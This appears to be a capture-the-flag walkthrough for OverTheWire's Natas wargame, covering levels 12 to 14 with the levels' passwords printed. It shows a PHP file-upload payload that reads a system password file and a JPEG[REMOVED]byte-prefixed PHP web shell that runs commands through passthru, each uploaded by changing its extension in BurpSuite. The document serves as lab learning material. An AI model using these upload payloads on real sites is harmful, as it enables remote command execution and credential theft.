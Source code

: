 Now put it in the cookie and you'll get the password

> The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3


### Level 12

This level is pretty interesting, and a bit tricky because we need to use BurpSuite to intercept our request, but we'll talk about that later.

As we first open the page we see that we can upload a file, and when we see the source code we also see that our uploaded file will have a random string as name with the .jpg format.

So we first have to craft out file, like this:

```PHP
#!/usr/bin/php

<? readfile('/etc/natas_webpass/natas13'); ?>
```
Here is where BurpSuite come in our help (I won't explain how to use it, but is preatty simple and you can learn this thing with a 10 minutes on google)

What we have to do with BurpSuite is change the extension of our uploaded file so we can run it.

```
The file upload/lrn0t7ehgm.php has been uploaded
```

Now we just have to open the file and we'll se the password:

> Here's your password for the next level: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY


### Level 13

This level is like the previous one, but this time they check the signature byte of the file.  

we'll use this python line of code to add what we need:
```python
fh.write('\xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')
```

Now we upload the file and intercept the request with BurpSuite like the previous level, and remove the strange character at the beginning of the file

```
The file upload/<name>.php has been uploaded
```
Now we open the file and we'll get the password:


> Here's your password for the next level: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

### Level 14

As we open the level we see a login form.  
We'll take a look at the source code as always and we will notice that they do some query to a SQL database.  


[^1]: XX is the current level.  